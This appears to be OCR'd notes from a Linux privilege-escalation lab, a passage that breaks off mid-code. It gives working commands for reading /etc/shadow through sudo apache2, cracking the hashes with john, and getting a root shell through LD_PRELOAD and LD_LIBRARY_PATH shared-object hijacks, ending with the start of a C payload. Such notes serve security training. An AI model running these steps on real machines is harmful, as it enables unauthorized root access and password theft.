 ````
!/bin/bash
````
#### Apache2
````
sudo -l 
(root) NOPASSWD: /usr/sbin/apache2
sudo apache2 -f /etc/shadow
````
- Copy hash to attacker box and crack with john
### Sudo -l LD_PRELOAD
- Sudo can be configured to inherit certain environment variables from the user's environment.
- Check which environment variables are inherited (look for the env_keep+=LD_PRELOAD options):
- Output you're looking for
````
user@debian:~/tools/sudo$ sudo -l
Matching Default entries for user on this host:
  env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
````
- LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. 
- LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.
- Create a shared object using the code located at /home/user/tools/sudo/preload.c:
- preload.c code in another file in this repo:
````
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
````
- Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:
````
sudo LD_PRELOAD=/tmp/preload.so program-name-here
````
- A root shell should spawn. 
- Run ldd against the apache2 program file to see which shared libraries are used by the program:
````
ldd /usr/sbin/apache2
````
- Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:
````
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
````
- Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):
````
sudo LD_LIBRARY_PATH=/tmp apache2
````
- A root shell should spawn. 
- Errors: Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. 
- Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.
#### Sudo -l LD_PRELOAD Method 2
1. In command prompt type: sudo -l
2. From the output, notice that the LD_PRELOAD environment variable is intact.
- Exploitation
- 1. Open a text editor and type:
````
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
````